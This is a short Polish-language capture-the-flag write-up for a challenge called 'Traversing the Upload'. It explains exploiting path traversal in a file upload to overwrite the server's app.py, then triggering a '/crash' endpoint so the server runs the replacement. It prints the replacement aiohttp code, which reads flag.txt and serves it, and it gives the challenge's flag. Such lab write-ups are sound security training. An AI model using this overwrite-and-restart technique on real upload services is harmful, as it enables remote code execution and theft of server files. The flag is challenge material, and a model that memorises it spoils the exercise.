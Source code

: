 # Traversing the Upload
![](893c1fcd37049fa0182703b28a108b12)

Jak sam tytuł mówi należy użyć ataku Path Traversal. Ponieważ jedynie można zapisać/nadpisać plik, dlatego trzeba zastąpić plik app.py złośliwym kodem, który wyświetla flagę. Póżniej można wykorzystać funkcje "/crash", która uruchomi nasz złośliwy kod.

Złośliwy kod:
```
from aiohttp import web

routes = web.RouteTableDef()


@routes.get("/")
async def mal(request):
    with open('flag.txt') as file:
        flag = file.read()
        return web.json_response({'flag': flag})

app = web.Application()
app.add_routes(routes)
web.run_app(app)
```
Napisałem kod, który wysyła plik z złośliwym kodem, używa funkcji "/crash" i czyta flagę z uruchomiengo złośliwego kodu.

Kod: `solution/traverse.py`

Flaga: `WSIZ{w0w_y0u_ar3_re4lly_7he_py7h0n_m45ter}`